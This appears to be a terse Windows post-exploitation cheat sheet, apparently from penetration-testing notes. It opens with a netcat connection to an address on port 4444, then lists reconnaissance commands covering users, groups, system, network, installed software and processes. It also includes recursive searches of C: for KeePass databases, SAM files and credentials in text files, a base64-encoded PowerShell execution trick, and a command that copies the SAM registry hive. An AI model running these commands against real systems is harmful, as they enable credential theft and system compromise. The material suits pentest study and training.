 - `nc 192.168.50.220 4444`
  `whoami`
  `whoami /groups`
  `Get-LocalUser`
  `Get-LocalUser -Name "username" | Select-Object \*`
  `Get-LocalGroup`
  `Get-LocalGroupMember Administrators`
  `systeminfo`
  `ipconfig /all`
  `route print`
  `netstat -ano`

Installed Applications:

32 Bit:
`Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

64 Bit:
`Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

`Get-Process`

`Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "YourSearchString"`

`$command = "Get-Process"`
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
`$encodedCommand = [Convert]::ToBase64String($bytes)`
`powershell.exe -EncodedCommand $encodedCommand`

`Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination "C:\Path\To\NewLocation\SAM"`
